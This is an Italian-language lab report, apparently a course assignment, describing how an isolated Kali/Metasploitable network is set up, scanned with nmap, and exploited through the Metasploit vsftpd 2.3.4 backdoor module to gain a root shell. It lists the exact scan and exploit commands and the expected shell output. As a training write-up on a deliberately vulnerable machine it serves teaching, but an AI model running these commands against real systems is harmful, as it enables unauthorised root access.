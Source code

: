 # 📝 Consegna S7/L1
# La fase di exploit: Gli attacchi alle Reti ⚛️

## Obiettivo 
L'obiettivo di questa esercitazione è stato **ottenere una shell come utente root** sulla macchina target **Metasploitable-Linux** sfruttando una vulnerabilità nel servizio FTP `vsftpd 2.3.4`.

## Configurazione della rete ⚖️

### Struttura delle macchine virtuali
1. **Kali Linux**:
   - **Interfaccia 1 (eth0)**: Bridged per accesso a **Internet**.
   - **Interfaccia 2 (eth1)**: Rete interna configurata su `192.168.50.2`.

2. **Metasploitable-Linux**:
   - **Interfaccia unica (eth0)**: Configurata nella **rete interna** con IP `192.168.50.3`.
   - **Nessun accesso a Internet** (isolamento per motivi di sicurezza).

### Verifica della connettività
Per assicurarci che le macchine siano nella stessa rete interna:
- **Kali ➞ Metasploitable**
   ```bash
   ping 192.168.50.3
   ```
   **Output atteso**: Risposta da `192.168.50.3` con successo.

- **Metasploitable ➞ Kali** (facoltativo):
   ```bash
   ping 192.168.50.2
   ```

## Scansione iniziale con Nmap 🔍
Una volta verificata la connettività, abbiamo eseguito una scansione rapida su Metasploitable per individuare i servizi attivi:

```bash
nmap -sV -p- 192.168.50.3
```

### Risultato della scansione
La scansione ha evidenziato la presenza del servizio FTP:
- **Porta 21**: FTP attivo con versione `vsftpd 2.3.4`

## Sfruttamento della vulnerabilità con Metasploit 🫠
### Caricamento dell'exploit
Utilizzando **Metasploit**, abbiamo selezionato l'exploit specifico per la vulnerabilità di `vsftpd 2.3.4`:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.50.3
set RPORT 21
run
```

### Esecuzione
L'exploit ha avuto successo, ottenendo una **shell** come utente **root** sulla macchina target.

**Output atteso:**
```bash
Command shell session opened
whoami
root
```

## Risultato finale 💪
L'obiettivo è stato raggiunto con successo:
- Abbiamo ottenuto una shell come **root** sulla macchina Metasploitable-Linux sfruttando il servizio FTP vulnerabile.
- La configurazione della rete interna ha garantito isolamento e sicurezza durante l'attacco.

### Considerazioni sulla sicurezza ⚠️
- La macchina target **Metasploitable** non deve avere accesso a Internet per evitare rischi di compromissione esterna.
- Kali Linux, grazie alla configurazione a doppia scheda di rete, ha mantenuto l'accesso sia alla rete interna che a Internet.

---

## Comandi chiave utilizzati 🛠️
1. **Scansione con Nmap**:
   ```bash
   nmap -sV -p- 192.168.50.3
   ```

2. **Metasploit - Caricamento exploit**:
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOST 192.168.50.3
   set RPORT 21
   run
   ```

3. **Verifica della shell**:
   ```bash
   whoami
   ```

![SuccessFTPExploit](./ShellFTPSuccess.png)

## Mission Success 🏆🚀

